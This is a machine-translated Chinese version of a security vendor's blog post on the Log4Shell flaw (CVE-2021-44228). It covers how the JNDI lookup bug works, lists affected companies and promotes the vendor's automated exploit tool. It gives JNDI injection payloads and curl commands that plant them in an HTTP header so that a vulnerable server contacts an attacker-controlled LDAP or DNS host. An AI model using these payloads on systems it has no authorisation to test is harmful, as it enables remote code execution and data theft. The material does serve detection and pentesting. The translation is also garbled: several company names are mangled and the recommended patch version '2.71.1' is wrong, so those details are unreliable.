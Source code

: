 # Log4Shell scanner:在您的网络和 web 应用程序中检测和利用 Log4j CVE-2021-44228 | Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228>

我们*几乎*到达了急需的假期……然后**日志 4 外壳**发生了。

在信息安全社区中，我们似乎不能拥有美好的事物。然而，现实是我们与复杂的系统一起工作，这些系统相互依赖的程度超过了我们任何人所能接受的程度。

![Log4Shell to exploit them all](img/a7ccd657ff362b102a0ccbc0ac905f8c.png)

当您必须处理像最新的 Log4j 漏洞([cvss v3](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)[**10.0**](https://nvd.nist.gov/vuln/detail/CVE-2021-44228))这样的关键漏洞时，剩下要做的就是调动您最好的工具集和节省时间的步骤。最大努力！

2021 年 12 月 9 日，一场针对 [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 的持续攻击在野外被发现。在那之后，一个概念验证就发布了——让网络安全社区感到恐惧的是——我们都看到了利用这个漏洞是多么的容易。

*那么，是什么让它成为如此重大的问题呢*？让我们快速回顾一下基本原理。

## **Log4j 是什么？**

Log4j 是一个广泛使用的日志库，许多应用程序和服务都使用它，它也是几个 Java 日志框架之一。它是 Apache 日志服务的一部分，Apache 日志服务是 Apache 软件基金会的一个项目。

> Log4j 是 Java 编程语言中常用的日志库。
> 
> 记录器是一种将数据保存在电脑上的软件。它用于监控正在发生的事情，确定软件运行是否顺利，或者在出现问题时捕捉信息以帮助调试。
> 
> — Emy | eq🌈(@ entropyqueen _)[2021 年 12 月 11 日](https://twitter.com/entropyqueen_/status/1469606441195556865?ref_src=twsrc%5Etfw)

![Apache Log4J](img/bf69e84c69dd4b90bf9f5ec44cde38f1.png)

由于 Log4j 中这种漏洞的普遍使用和攻击这种漏洞的低复杂性——这也恰好具有最高的可能风险级别——最坏情况的前提被提出。

## **log 4 外壳攻击面**

根据这个[库](https://github.com/NCSC-NL/log4shell/tree/main/software)，以下组织被确认具有受 CVE-2021-44228 影响的易受攻击系统:

*   苹果

*   腾讯

*   蒸汽

*   推特

*   百度(全球最大的中文搜索引擎)

*   姐姐

*   法学博士(Jurum Doctor)

*   网易

*   云耀斑

*   亚马孙

*   特斯拉

*   阿帕奇索尔

*   阿帕奇德鲁伊

*   Apache Struts2

*   IBM Qradar SIEM

*   帕洛阿尔托全景

*   弹性搜索

*   吉德拉

*   《我的世界》

*   脉冲安全

*   UniFi

*   VMWare

*   搅拌机

*   谷歌

*   Webex

*   商务化人际关系网

## **log 4 shell 漏洞如何工作**

该漏洞的根本原因是在 Apache Log4j < = 2.14.1 中实现的 JNDI 功能中的**不正确的输入验证**。

在易受攻击的版本中，默认情况下会启用一种称为“消息查找替换”的功能，该功能允许威胁参与者从远程 LDAP 服务器加载和执行任意 Java 代码。

此外，在 JNDI 查找中支持多种协议，包括 LDAP、LDAPS、DNS 和 RMI。因此，如果攻击者可以控制日志消息，并通过输入参数之一或在 [HTTP 头](/blog/essential-http-security-headers)中注入任意代码，他们就可以在受控服务器上创建恶意 Java 类，并迫使易受攻击的服务器使用查找方法从 LDAP/LDAPS/DNS/RMI 服务器执行该 Java 类。

![https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/](img/9807acae82fc8f430e0165106c3abd5e.png)

来源:[瑞士政府认证](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/)

## **易受攻击的 Log4j 版本**

**2 . 17 . 1 之前的所有** Log4j 版本都会受到影响。

风险在于，未经验证的远程攻击者可以完全危及服务器的安全，窃取机密信息、安装勒索软件或转向[内部网络](/blog/internal-network-scanning)。

## **如何检测道德黑客活动中的 log 4 shell/CVE-2021-44228**

为了**探测 CVE-2021-44228** ，你可以注入以下有效载荷:

#### **LDAP:**

**${jndi:ldap:// < LDAP *受控*服务器> /a}** 在每个参数或每个 HTTP 头中，然后检查远程记录器是否被访问。

#### **域名系统:**

**${jndi:dns://${hostName}。< DNS *控制的*服务器> }** 在每个参数或每个 HTTP 头中，然后检查远程记录器是否被访问。

您可以使用以下记录器: [CanaryTokens](https://canarytokens.org/generate) 或 [Log4shell Tester](https://log4shell.huntress.com/) 来确定您的应用程序是否容易受到 CVE-2021-44228 的攻击。

例如，如果您想要在“X-Api-Version”HTTP 头中注入有效负载，您可以使用以下请求:

```
curl <vulnerable_IP_address>:<vulnerabe_port> -H 'X-Api-Version:
${jndi:ldap://<LDAP_controlled_server>/a}
curl <vulnerable_IP_address>:<vulnerabe_port> -H 'X-Api-Version:
${jndi:dns:/${hostName}.<DNS_controlled_server>}
```

确认 CVE-2021-44228 在你的目标上是可利用的最快和最省事的方法是使用[狙击自动利用者](https://pentest-tools.com/exploit-helpers/sniper)，Pentest-Tools.com 上的自动攻击者。

该工具自动模拟现实世界的利用和攻击技术:

*   它扫描开放的端口，收集有关协议、服务类型和版本的数据

*   它对 web 服务进行指纹识别，以确定运行的 web 应用程序的类型及其背后的技术栈

*   它寻找兼容的利用

*   它检查目标是否确实易受攻击，在此阶段不提取任何数据

*   一旦获得 RCE，Sniper 自动提取所有工件(当前和本地用户，系统信息，运行进程，网络配置等。)，这将在输出报告中得到

*   它确实会清除，所以目标保持不变。

我们使用 **LDAP** 来[利用 Log4Shell 漏洞](/blog/how-we-detect-log4shell)。

![Sniper exploitation summary for Log4j vuln](img/798f6f257fd333693a106ffa17b5a7fe.png)

![local users found with Sniper](img/fb62343cf12825fc4a28911feb7521e9.png)

![files extracted with Sniper](img/6dcef8112527c8e7ccd17355e553efdf.png)

这一切都发生在一分钟内——从字面上来说——与手工开发相比，这是一个巨大的收获，特别是当你在一个 pentest 中时间紧迫时(什么时候不会发生这种情况？).

由于 Sniper 不生成结果，如果您想用漏洞填充结果页面，请运行默认包含 Sniper 检测模块的[网络漏洞扫描](https://pentest-tools.com/network-vulnerability-scanning/network-security-scanner-online-openvas)。我们使用 DNS 查询来验证漏洞是否存在。

![Log4j vulnerability exploitation with Sniper](img/30ecc4d1f75fcbf710c8fcdd79e98e1a.png)

## **如何缓解 CVE-2021-44228**

我们建议将 Log4j 库升级到**至少 2.71.1** 版本，修复该漏洞和第一个补丁发布后发现的安全问题。

然而，打补丁说起来容易做起来难，原因有很多，信息安全社区都很清楚。我们赞扬整个行业的事故响应团队和专家尽最大努力将风险和损失降至最低！

我们将继续为您提供所需的工具，帮助您在压力下尽可能出色地完成工作——无论您负责的系统是在地球上还是在太空中，我们都会为您带来最新消息！

> 你知道火星 2020 直升机任务“独创性”是由阿帕奇 Log4j 驱动的吗？
> [【https://t.co/gV0uyE1ylk】](https://t.co/gV0uyE1ylk)
> [【阿帕奇】](https://twitter.com/hashtag/Apache?src=hash&ref_src=twsrc%5Etfw) [【开源】](https://twitter.com/hashtag/OpenSource?src=hash&ref_src=twsrc%5Etfw) [【创新】](https://twitter.com/hashtag/innovation?src=hash&ref_src=twsrc%5Etfw) [【社区】](https://twitter.com/hashtag/community?src=hash&ref_src=twsrc%5Etfw) [【日志】](https://twitter.com/hashtag/logging?src=hash&ref_src=twsrc%5Etfw) [【服务】](https://twitter.com/hashtag/services?src=hash&ref_src=twsrc%5Etfw)
> [pic.twitter.com/aFX9JdquP1](https://t.co/aFX9JdquP1)
> 
> —阿帕奇—ASF(@ TheASF)[2021 年 6 月 4 日](https://twitter.com/TheASF/status/1400875147163279374?ref_src=twsrc%5Etfw)

为防御者和攻击性安全团队提供最新的漏洞指导，请将 [CISA 的建议](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)加入书签。

为防御者和攻击性安全团队提供最新的漏洞指导，请将 [CISA 的建议](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)加入书签。